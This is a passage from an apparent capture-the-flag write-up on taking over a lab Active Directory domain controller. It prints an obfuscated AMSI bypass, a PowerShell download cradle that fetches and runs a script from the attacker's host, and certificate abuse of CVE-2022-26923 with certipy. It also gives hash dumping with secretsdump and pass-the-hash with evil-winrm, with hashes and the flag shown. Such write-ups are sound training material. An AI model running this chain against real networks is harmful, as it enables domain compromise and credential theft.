 So firstly we run an obfuscated AMSI bypass using the AmsiInitFailed method:
{% highlight csharp %}
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1) 
{% endhighlight %}
{% include figure image_path="/assets/img/amsibypass.png" %}
Now we can use a PowerShell download cradle to download and execute Powermad.ps1 from our machine:
{% highlight csharp %}
IEX(IWR http://10.10.14.26/Powermad.ps1 -UseBasicParsing)
{% endhighlight %}
{% include figure image_path="/assets/img/powermad.png" %}
And create a new AD computer called myComputer with a password of "h4x":
{% highlight csharp %}
New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)
{% endhighlight %}
With this, we can then follow the steps on https://github.com/LudovicPatho/CVE-2022-26923_AD-Certificate-Services to abuse CVE-2022-26923.
Firstly, we remove the SPN set on our new computer account, and set its dnshostname to be the hostname of this machine:
{% highlight csharp %}
Set-ADComputer myComputer -ServicePrincipalName @{}
Set-ADComputer myComputer -DnsHostName CFN-SVRDC01.certification.htb
{% endhighlight %}
{% include figure image_path="/assets/img/setdns.png" %}
On our attacking machine, we then use certipy to request a certificate from the enterprise CA for the host set in our DnsHostname field (this being the DC's hostname), using the machine template (built in default template in AD CS):
{% highlight csharp %}
certipy req 'certification.htb/myComputer$:h4x@CFN-SVRDC01.certification.htb' -ca certification-CFN-SVRDC01-CA -template Machine  -debug
{% endhighlight %}
{% include figure image_path="/assets/img/certipygetcert.png" %}
As can be seen, we know have obtained a PFX certificate for the DC, which can be used with certipy's auth command to obtain the NT hash for the machine.
{% highlight csharp %}
certipy auth -pfx cfn-svrdc01
{% endhighlight %}
This gives us the NTLM hash for the  cfn-svrdc01 machine account. With this, we can then use Impacket's secretsdump to obtain all NTLM hashes for all uses in the domain (since this is a domain controller)/on the cfn-svrdc01 machine.

{% highlight csharp %}
secretsdump.py 'cfn-svrdc01$'@certification.htb -hashes :d85512d5e138a972140986b9cc664d7a
{% endhighlight %}
{% include figure image_path="/assets/img/secretsdump.png" %}
With the Administrator hash, we can use evil-winrm to Pass-the-Hash and get a shell with administrator privileges on the machine and read the root.txt flag in C:\Users\Administrator\root.txt
{% highlight csharp %}
evil-winrm -i cfn-svrdc01.certification.htb -u administrator -H 30d9a71719214d675de29308730c0cb0
{% endhighlight %}
{% include figure image_path="/assets/img/root.png" %}
Root.txt: HTB{c3rtif1c4t35_c4n_8e_f4k3d}